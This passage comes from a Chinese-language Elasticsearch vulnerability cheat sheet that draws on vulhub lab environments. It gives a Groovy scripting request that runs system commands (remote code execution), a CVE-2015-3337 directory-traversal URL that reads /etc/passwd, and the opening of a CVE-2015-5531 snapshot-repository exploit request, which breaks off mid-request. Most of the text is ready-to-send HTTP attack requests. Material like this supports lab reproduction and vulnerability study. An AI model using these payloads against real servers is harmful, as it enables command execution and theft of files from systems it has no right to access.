     {
    "name": "test"
    }
    ```

    然后发送包含 payload 的数据包,执行任意命令:
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/text
    Content-Length: 156

    {"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
    ```

**CVE-2015-3337 目录穿越漏洞**
- 简介

    在安装了具有"site"功能的插件以后,插件目录使用../即可向上跳转,导致目录穿越漏洞,可读取任意文件.没有安装任意插件的 elasticsearch 不受影响.

- 影响版本

    - ElasticSearch < 1.4.4
    - ElasticSearch 1.5.0 ~ 1.5.1

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/

    - `http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd` (不要在浏览器访问)

    - `http://your-ip:9200/_plugin/head/`

**CVE-2015-5531**
- 简介

    elasticsearch 1.5.1 及以前,无需任何配置即可触发该漏洞.之后的新版,配置文件 elasticsearch.yml 中必须存在 path.repo,该配置值为一个目录,且该目录必须可写,等于限制了备份仓库的根位置.不配置该值,默认不启动这个功能.

- 影响版本

    - ElasticSearch < 1.6.0

- 文章
    - [Elasticsearch目录遍历漏洞 (CVE-2015-5531) 复现与分析 (附PoC) ](https://www.freebuf.com/vuls/99942.html)

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/

    新建一个仓库
    ```
    PUT /_snapshot/test HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108
